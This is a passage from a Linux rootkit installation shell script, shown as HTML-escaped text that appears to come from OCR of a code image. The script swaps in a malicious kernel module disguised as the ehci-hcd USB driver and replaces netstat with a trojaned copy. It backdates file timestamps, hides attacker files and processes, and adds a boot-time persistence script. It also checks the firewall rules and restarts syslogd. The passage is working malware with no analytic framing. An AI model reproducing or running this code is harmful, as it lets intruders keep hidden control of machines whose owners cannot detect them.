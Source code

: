 &quot;# WARNING - SSHD WONT BE RELOADED UPON RESTART &quot;</p><p>&nbsp; &nbsp;echo &quot;# inittab shuffling probly fucked-up ! &quot;</p><p>fi</p><p>&nbsp;</p><p>##########load rk.ko##########</p><p>cd $BASEDIR</p><p>modprobe -r ehci-hcd</p><p>mv -f rk.ko /lib/modules/`uname -r`/kernel/drivers/usb/host/ehci-hcd.ko</p><p>modprobe ehci-hcd</p><p>mv tty $HOMEDIR</p><p>&nbsp;</p><p>##########replace netstat##########</p><p>touch -acmr /bin/netstat netstat</p><p>mv -f netstat /bin/netstat</p><p>&nbsp;</p><p>##########hide all files and process##########</p><p>$HOMEDIR/tty h /etc/sh.conf &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty h /lib/libsh.so &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty h /usr/lib/libsh &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty h /sbin/ttyload &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty h /usr/sbin/ttyload &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty h /sbin/ttymon &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty i `pidof ttyload` &gt; /dev/null 2&gt;&amp;1</p><p>$HOMEDIR/tty i `pidof ttymon` &gt; /dev/null 2&gt;&amp;1</p><p>&nbsp;</p><p>##########load rk.ko on boot##########</p><p>cat &gt; /etc/sysconfig/modules/ehci.modules &lt;&lt; EOF</p><p>#!/bin/sh</p><p>#install usb modules support</p><p>modprobe -r ehci-hcd</p><p>modprobe ehci-hcd</p><p>EOF</p><p>touch -amcr /bin/ls /etc/sysconfig/modules/ehci.modules</p><p>&nbsp;</p><p>chmod 755 /etc/sysconfig/modules/ehci.modules</p><p>$HOMEDIR/tty h /etc/sysconfig/modules/ehci.modules &gt; /dev/null 2&gt;&amp;1</p><p>&nbsp;</p><p>##########check iptables setting##########</p><p>if [ -f /sbin/iptables ]; then</p><p>&nbsp; &nbsp;echo &quot;`/sbin/iptables -L INPUT | head -5`&quot;</p><p>else</p><p>&nbsp; &nbsp;echo &quot;&quot;</p><p>&nbsp; &nbsp;echo &quot;# lucky for u no iptables found&quot;</p><p>fi</p><p>&nbsp;</p><p>##########start syslogd##########</p><p>/sbin/syslogd -m 0</p><p>&nbsp;</p><p># ./setup 123 3333 &nbsp; &nbsp;//设
